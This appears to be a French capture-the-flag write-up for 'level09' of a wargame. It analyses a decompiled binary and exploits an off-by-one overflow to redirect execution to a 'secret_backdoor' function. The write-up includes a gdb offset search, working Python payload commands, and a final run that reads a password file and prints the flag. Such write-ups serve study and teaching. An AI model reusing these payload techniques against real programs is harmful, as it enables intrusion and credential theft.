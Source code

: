 # level09

En ouvrant l'exécutable sur un décompileur, on voit rapidement la fonction `secret_backdoor`, on comprend donc qu'on va devoir y accéder via un overflow ou un string format.

Aucun printf en vue, on commence donc par explorer l'option de l'overflow.

Le programme nous propose de définir notre username et d'envoyer un message, `main` appelle `handle_msg` qui a un buffer `v1` d'une taille de `140`
Derrière la déclaration de `v1`, on push 5 `int64` sur la stack, donc `40 bytes`.
On a ensuite un int `v7` qui vaut `140`

`set_username` est appelé avec notre buffer `v1` en argument, il va lire `128 bytes` de notre input dans un buffer de `140` caractères, donc pas d'overflow ici.

En revanche, on a ensuite cette boucle:

```C
for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
```

La condition `i <= 40` nous fait comprendre que l'on peut copier jusqu'à `41 bytes` dans `a1 + 140`, on avait noté plus haut qu'il n'y avait que `40 bytes` allouées à la suite de `a1`, le 41ème byte que l'on peut copier va donc overflow le premier byte de `v7`, l'int qui vaut `140` dans `handle_msg`.

`handle_msg` appelle ensuite `set_msg`, qui va prendre notre input pour définir le message, et appeler ensuite `strncpy` de cette manière:

```C
return strncpy((char *)a1, s, *(int *)(a1 + 180));
```

Le 3ème argument de `strncpy` est le nombre de bytes qui vont etre copiés, ici, on utilise la valeur située à `a1 + 180`, donc `v7`. Hors on a noté précédemment qu'il était possible d'overflow le premier byte de `v7` et donc d'augmenter considérablement sa valeur.

Ici, notre `strncpy` va copier notre input dans `a1` (`v1` de `handle_msg`) derrière `a1`, on sait qu'on a nos 4 `int64` donc `40 bytes`, et la déclaration de `v7` donc `4 bytes`, ce qui nous fait un total de `184 bytes` allouées.

On doit donc utiliser `set_username` pour overflow la valeur de `v7`, puis utiliser `set_msg` pour écrire l'adresse de `secret_backdoor` en dehors de la memoire allouée.

Petit coup de pattern generator pour trouver l'offset 

```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) run < <(python -c 'print("a" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level09/level09 < <(python -c 'print("a" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) info registers
rax            0xd	13
rbx            0x0	0
rcx            0x7ffff7b01f90	140737348902800
rdx            0x7ffff7dd5a90	140737351867024
rsi            0x7ffff7ff7000	140737354100736
rdi            0xffffffff	4294967295
rbp            0x6741356741346741	0x6741356741346741
rsp            0x7fffffffe5d8	0x7fffffffe5d8
r8             0x7ffff7ff7004	140737354100740
r9             0xc	12
r10            0x7fffffffde80	140737488346752
r11            0x246	582
r12            0x555555554790	93824992233360
r13            0x7fffffffe6c0	140737488348864
r14            0x0	0
r15            0x0	0
rip            0x555555554931	0x555555554931 <handle_msg+113>
eflags         0x10246	[ PF ZF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```

On trouve un offset de `192` pour écrire

On ajoute 8 pour arriver à `rsp` (voir [source](https://blog.zenika.com/2020/06/24/exploitation-stack-buffer-overflow-return-oriented-programming-la-theorie/)), ce qui nous donne un offset de 200

Derrière notre offset de 200, on va mettre les 4 derniers bytes de l'addresse de `secret_backdoor` (le reste de bytes étant déjà identique, pas besoin de les réécrire).

Ce qui nous donne:

```sh
python -c 'print(b"\xca" * 45)' > /tmp/first

python -c 'print("A" * 200 + "\x8c\x48")' > /tmp/second
```

```bash
level09@OverRide:~$ cat /tmp/second - | cat /tmp/first - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```